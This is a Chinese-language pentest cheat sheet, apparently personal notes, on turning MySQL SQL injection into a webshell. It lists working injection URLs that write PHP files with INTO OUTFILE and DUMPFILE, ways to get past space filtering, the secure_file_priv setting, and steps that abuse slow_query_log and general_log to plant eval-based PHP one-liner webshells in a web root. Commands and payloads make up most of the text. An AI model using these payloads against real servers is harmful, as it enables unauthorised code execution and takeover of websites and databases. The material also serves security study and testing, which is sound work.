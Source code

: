 ## outfile和dumpfile写shell

### 利用条件 

> 1. 数据库当前用户为root权限；
> 2. 知道当前网站的绝对路径；
> 3. `PHP`的`GPC`为 off状态；(魔术引号，GET，POST，Cookie)
> 4. 写入的那个路径存在写入权限。

### 基于union联合查询：

```bash
?id=1 union select 1,'<?php phpinfo();?>',3 into outfile 'C:\phpstudy\www\shell.php'%23
?id=1 union select 1,'<?php phpinfo();?>',3 into dumpfile 'C:\phpstudy\www\shell.php'%23
```

### 非联合查询

当我们无法使用联合查询时，我们可以使用`fields terminated by`与`lines terminated by`来写shell

```bash
?id=1 into outfile 'C:\phpstudy\www\shell.php' FIELDS TERMINATED BY '<?php phpinfo();?>'%23
```

**代替空格的方法**

+号，`%0a`、`%0b`、`%a0` 、 /**/ 注释符等

### outfile和dumpfile的区别 

`outfile`:

> 1、 支持多行数据同时导出
>
> 2、 使用union联合查询时，要保证两侧查询的列数相同
>
> 3、 会在换行符制表符后面追加反斜杠
>
> 4、会在末尾追加换行

`dumpfile`:

> 1、 每次只能导出一行数据
>
> 2、 不会在换行符制表符后面追加反斜杠
>
> 3、 不会在末尾追加换行

因此，我们可以使用`into dumpfile`这个函数来顺利写入二进制文件;

当然`into outfile`函数也可以写入二进制文件，但是无法生效（追加的反斜杠会使二进制文件无法生效）

当我们使用`dumpfile`，应该手动添加 limit 限制，来获取不同的行数

### secure_file_prive

MySQL的secure-file-prive参数是用来限制LOAD DATA, SELECT ,OUTFILE, and LOAD_FILE()传到哪个指定目录的。

>secure_file_prive= ，结果为空的话，表示允许任何文件读写
>
>secure_file_prive=NULL，表示不允许任何文件读写
>
>secure_file_prive='某个路径'，表示这个路径作为文件读写的路径
>
>在mysql5.5版本前，都是默认为空，允许读取
>
>在mysql5.6版本后 ,默认为NULL，并且无法用`SQL`语句对其进行修改。所以这种只能在配置进行修改。

查询`secure_file_prive`的参数

```
show global variables like "%secure%"
```

利用sql语句修改参数

```
set global secure_file_prive= 
```

但是5.6后不能利用sql修改了，所以只能利用配置修改

```
修改value的值：
windows下修改配置文件：mysql.ini
linux修改配置文件：my.cnf
```

## 日志getshell

###  慢日志getshell

慢日志：

一般都是通过long_query_time选项来设置这个时间值，时间以秒为单位，可以精确到微秒。如果查询时间超过了这个时间值（默认为10秒），这个查询语句将被记录到慢查询日志中。查看服务器默认时间值方式如下：

```
show global variables like '%long_query_time%'
show global variables like '%long%'
```

查看慢日志参数

```
show global variables like '%slow%'
```

![image-20220317103023917](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/e213bcc5ce67f55831780cc19618bf9e.png)

对慢日志参数进行修改

```
set global slow_query_log=1 #打开慢日志
set global slow_query_log_file='c:\\phpstudy\\www\\test.php'#慢日志的路径
注意：一定要用双反斜杠
SELECT '<?php @eval($_POST[1]);?>' or sleep(11)
这儿11是超过慢日志的10秒时间
```

### 利用general_log

利用`general_log`，可以将所有到达mysql服务器的sql语句，都记录下来。

相关参数一共有3个：general_log、log_output、general_log_file

```
show variables like 'general_log';  -- 查看日志是否开启
set global general_log=on; -- 开启日志功能


show variables like 'general_log_file';  -- 看看日志文件保存位置
set global general_log_file='tmp/general.lg'; -- 设置日志文件保存位置


show variables like 'log_output';  -- 看看日志输出类型  table或file
set global log_output='table'; -- 设置输出类型为 table
set global log_output='file';   -- 设置输出类型为file
```

一般log_output都是`file`,就是将日志存入文件中。`table`的话就是将日志存入数据库的日志表中。



**getshell**

```
set global general_log=on
set global general_log_file='需要攻击的路径'
select '<?php eval($_POST[cmd]);?>'
```

这样就将一句话木马记录到`general_log`中，从而getshell

###  binlog的介绍

[可以看看这个](https://blog.csdn.net/Abysscarry/article/details/79949480)